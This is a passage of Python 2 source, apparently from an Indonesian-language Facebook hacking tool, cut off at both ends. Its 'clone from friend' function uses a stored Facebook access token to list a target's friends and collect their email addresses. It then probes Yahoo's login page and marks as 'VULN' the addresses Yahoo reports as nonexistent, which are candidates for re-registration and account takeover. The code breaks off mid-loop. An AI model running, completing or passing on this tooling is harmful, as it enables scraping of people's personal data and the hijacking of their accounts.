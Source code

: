     
raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
    menu()
        

def clone_dari_teman():
    global toket
    os.system('clear')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mToken invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    try:
        os.mkdir('out')
    except OSError:
        pass
    os.system('clear')
    print logo
    mpsh = []
    jml = 0
    print 42*"\033[1;96m="
    idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m")
    try:
        jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
        op = json.loads(jok.text)
        print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama\033[1;91m :\033[1;97m "+op["name"]
    except KeyError:
        print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan"
        raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
        menu()
    jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
    teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
    kimak = json.loads(teman.text)
    jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
    print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
    print 43*"\033[1;96m="
    for w in kimak['data']:
        jml +=1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile(r'@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
                br._factory.is_html = True
                br.select_form(nr=0)
                br["username"] = mail
                klik = br.submit().read()
                jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    continue
                if '"messages.ERROR_INVALID_USERNAME">' in pek:
                    print("\033[1;96m[✓] \033[1;92mVULN")
                    print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)